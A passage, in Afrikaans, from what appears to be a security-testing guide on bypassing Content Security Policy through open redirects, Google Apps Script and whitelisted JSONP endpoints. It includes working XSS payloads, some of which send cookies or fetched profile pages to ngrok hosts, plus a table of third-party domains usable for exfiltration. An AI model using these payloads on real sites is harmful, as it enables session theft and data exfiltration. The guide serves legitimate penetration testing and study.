 ```html
b.src="//example.com/evil.js";
b.nonce=a.nonce; doc.body.appendChild(b)' />
```
#### Misbruik van www.google.com vir oop herleiding

Die volgende URL herlei na example.com (van [hier](https://www.landh.tech/blog/20240304-google-hack-50000/)):
```
https://www.google.com/amp/s/example.com/
```
Misbruik van \*.google.com/script.google.com

Dit is moontlik om Google Apps Script te misbruik om inligting te ontvang op 'n bladsy binne script.google.com. Soos dit [in hierdie verslag gedoen word](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/).

### Derdeparty Eindpunte + JSONP
```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```
Scenariod soos hierdie waar `script-src` op `self` en 'n spesifieke domein wat op die witlys is, gestel is, kan omseil word deur JSONP te gebruik. JSONP eindpunte laat onveilige terugroepmetodes toe wat 'n aanvaller in staat stel om XSS uit te voer, werkende payload:
```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
[**JSONBee**](https://github.com/zigoo0/JSONBee) **bevat gereed-om-te-gebruik JSONP eindpunte om CSP te omseil van verskillende webwerwe.**

Die dieselfde kwesbaarheid sal voorkom as die **vertroude eindpunt 'n Open Redirect bevat** omdat as die aanvanklike eindpunt vertrou word, omleidings vertrou word.

### Derdeparty Misbruik

Soos beskryf in die [volgende pos](https://sensepost.com/blog/2023/dress-code-the-talk/#bypasses), is daar baie derdeparty domeine wat dalk êrens in die CSP toegelaat word, wat misbruik kan word om data te ekfiltreer of JavaScript kode uit te voer. Sommige van hierdie derdepartye is:

| Entiteit          | Toegelate Domein                            | Vermoëns     |
| ----------------- | ------------------------------------------- | ------------- |
| Facebook          | www.facebook.com, \*.facebook.com           | Ekfil        |
| Hotjar            | \*.hotjar.com, ask.hotjar.io                | Ekfil        |
| Jsdelivr          | \*.jsdelivr.com, cdn.jsdelivr.net           | Exec         |
| Amazon CloudFront | \*.cloudfront.net                           | Ekfil, Exec   |
| Amazon AWS        | \*.amazonaws.com                            | Ekfil, Exec   |
| Azure Websites    | \*.azurewebsites.net, \*.azurestaticapps.net | Ekfil, Exec   |
| Salesforce Heroku | \*.herokuapp.com                            | Ekfil, Exec   |
| Google Firebase   | \*.firebaseapp.com                          | Ekfil, Exec   |
